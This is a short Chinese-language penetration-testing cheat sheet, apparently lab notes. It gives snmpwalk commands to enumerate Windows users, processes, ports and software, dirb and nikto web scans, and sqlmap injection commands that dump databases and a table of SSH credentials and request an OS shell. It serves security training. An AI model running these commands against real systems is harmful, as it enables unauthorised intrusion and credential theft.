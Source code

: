### snmpwalk
请求SNMP管理值信息树
```Shell
# -c指定community string -v指定SNMP版本 -t指定超时秒数
# Windows 枚举整个MIB树
snmpwalk -c public -v1 -t 10 10.11.1.14
# 枚举Windows用户
snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25
# 枚举Windows进程
snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2
# 枚举开放的TCP端口
snmpwalk -c public -v1 10.11.1.14 1.3.6.1.2.1.6.13.1.3
# 枚举安装的软件
snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2
```

### dirb
Web内容扫描器
```Shell
# 查找目录和页面 -r指定非递归 -z指定延迟毫秒数
dirb http://www.megacorpone.com -r -z 10
# 如果不加-r参数的话 会以递归方式继续对新发现的目录进行搜索
```

### nikto
一款高度可配置的开源网络服务器扫描仪
```Shell
nikto -host=http://www.megacorpone.com -maxtime=30s
```

### sqlmap
自动化的SQL注入工具
```Shell
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id"
# 拖库
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --dump
# 获取SHELL
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell

sqlmap -r req.txt -p "id,username,password,login"
# 查看有哪些数据库
sqlmap -r req.txt -p "id" --dbs
# 查看有哪些表
sqlmap -r req.txt -p "id" -D "darkhole_2" --tables
# 查看有哪些字段
sqlmap -r req.txt -p "id" -D "darkhole_2" -T "ssh" --columns
# 获取数据
sqlmap -r req.txt -p "id" -D "darkhole_2" -T "ssh" -C "id,user,pass" --dump
# 全部默认回车，自动尝试破解密码

# 加速参数
--dbms=mysql --time-sec=1 --threads=8
```
